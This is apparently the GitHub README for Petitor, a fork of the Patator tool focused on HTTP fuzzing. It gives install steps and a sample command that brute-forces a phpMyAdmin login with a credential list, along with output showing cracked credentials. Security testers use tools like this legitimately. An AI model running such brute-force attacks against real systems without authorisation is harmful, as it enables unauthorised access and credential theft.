 # Petitor (work in progress!)

Petitor is a stripped-down fork of Patator by lanjelot, exclusively focused on HTTP fuzzing.
Patator was written out of frustration from using Hydra, Medusa, Ncrack, Metasploit modules and Nmap NSE scripts for password guessing attacks.

# Differences from Patator

- Module functionality dropped. http_fuzz only.
- Windows support dropped. Might still work. Not tested.
- Compatible with recent Python versions.

# To-do

- Break down huge monolithic codebase in `petitor.py` into logically organized modules.
- Refactor for readability and PEP-8 compliance.
- Lots of testing.

## Install

```
git clone https://github.com/n0kovo/petitor.git
git clone https://github.com/danielmiessler/SecLists.git
docker build -t petitor petitor/
docker run -it --rm -v $PWD/SecLists/Passwords:/mnt petitor dummy_test data=FILE0 0=/mnt/richelieu-french-top5000.txt
```

## Usage Example

* HTTP : Brute-force phpMyAdmin logon

```
$ petitor url=http://10.0.0.1/pma/index.php method=POST body='pma_username=COMBO00&pma_password=COMBO01&server=1&target=index.php&lang=en&token=' 0=combos.txt before_urls=http://10.0.0.1/pma/index.php accept_cookie=1 follow=1 -x ignore:fgrep='Cannot log in to the MySQL server' -l /tmp/qsdf
11:53:47 petitor    INFO - Starting Patator v0.7-beta (http://code.google.com/p/patator/) at 2014-08-31 11:53 EST
11:53:47 petitor    INFO -
11:53:47 petitor    INFO - code size:clen       time | candidate                          |   num | mesg
11:53:47 petitor    INFO - -----------------------------------------------------------------------------
11:53:48 petitor    INFO - 200  49585:0        0.150 | root:p@ssw0rd                      |    26 | HTTP/1.1 200 OK
11:53:51 petitor    INFO - 200  13215:0        0.351 | root:                              |    72 | HTTP/1.1 200 OK
^C
11:53:54 petitor    INFO - Hits/Done/Skip/Fail/Size: 2/198/0/0/3000, Avg: 29 r/s, Time: 0h 0m 6s
11:53:54 petitor    INFO - To resume execution, pass --resume 15,15,15,16,15,36,15,16,15,40
```

Payload #72 was a false positive due to an unexpected error message:

```
$ grep AllowNoPassword /tmp/qsdf/72_200\:13215\:0\:0.351.txt
... class="icon ic_s_error" /> Login without a password is forbidden by configuration (see AllowNoPassword)</div><noscript>
```
